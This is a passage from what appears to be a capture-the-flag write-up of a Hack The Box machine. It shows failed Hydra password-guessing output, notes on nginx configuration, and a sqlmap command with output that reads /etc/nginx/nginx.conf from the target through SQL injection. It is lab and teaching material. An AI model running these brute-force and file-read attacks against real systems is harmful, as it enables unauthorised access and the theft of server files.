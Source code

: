 	[ATTEMPT] target 10.10.11.166 - login "remo" - pass "SuperGucciRainbowCake" - 7 of 10 [child 6] (0/0)
	[ATTEMPT] target 10.10.11.166 - login "remo" - pass "TrulyImpossiblePasswordLmao123" - 8 of 10 [child 7] (0/0)
	[ATTEMPT] target 10.10.11.166 - login "michael" - pass "SuperGucciRainbowCake" - 9 of 10 [child 8] (0/0)
	[ATTEMPT] target 10.10.11.166 - login "michael" - pass "TrulyImpossiblePasswordLmao123" - 10 of 10 [child 9] (0/0)
	1 of 1 target completed, 0 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-27 05:06:52
	
	```
	- Failed
11. Read up on Nginx
	- [Server Blocks](https://www.keycdn.com/support/nginx-virtual-host#:~:text=A%20virtual%20host%20is%20an,websites%20on%20a%20single%20server.)
		- Able to host multiple websites on a single server
		- A `server` block consists of a subset of configurations that define a virtual server
		- Multiple server blocks are possible to decide which block will handle the request based on domain name, IP address and port.
	-  [Location Blocks](https://www.youtube.com/watch?v=3q2xxMc7XEo)
		- Located within server blocks, that determines how request are processed for different URIs and resources
		- https://www.keycdn.com/support/nginx-location-directive
	- What is `/etc/nginx/sites-available/*` directory
		- It is a place to store configuration files for your website(s)
		- If you wish to enable that website, create a symlink to `/etc/nginx/sites-enabled/<website name>`, only then it is enabled
		- It is best practice to create a new file for each website/vhost to manage them easier
		- It is best practice to name the file after the website's FQDN
		- [Source](https://stackoverflow.com/questions/71260124/nginx-configuration-files-in-different-locations)
	- What is `/etc/nginx/sites-enabled/*` directory
		- It contains the configuration details of currently running website, such as
			- Root directory, `/var/www/html`
			- Server Name, `trick.htb, preprod-payroll`
			- Directories `/assets, /database`
12. Read `nginx` configuration file to find out more details on the webserver
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166/exploit]
	└─# sqlmap -r sqli.txt --output-dir=$(pwd)/sqlmap  --file-read=/etc/nginx/nginx.conf --batch --threads 10
	
	[22:35:45] [INFO] retrieving the length of query output
	[22:35:45] [INFO] retrieved: 4
	[22:35:45] [INFO] retrieved: 1482           
	[22:35:45] [INFO] the local file '/root/htb/trick/10.10.11.166/exploit/sqlmap/preprod-payroll.trick.htb/files/_etc_nginx_nginx.conf' and the remote file '/etc/nginx/nginx.conf' have the same size (1482 B)
	files saved to [1]:
	[*] /root/htb/trick/10.10.11.166/exploit/sqlmap/preprod-payroll.trick.htb/files/_etc_nginx_nginx.conf (same file)
	
